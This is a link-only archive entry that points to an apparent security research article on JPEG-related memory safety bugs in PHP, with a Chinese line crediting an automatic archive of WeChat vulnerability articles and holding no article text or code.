https://swarm.ptsecurity.com/hack-the-elephant-one-bite-at-a-time-jpeg-related-memory-safety-bugs-in-php/  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
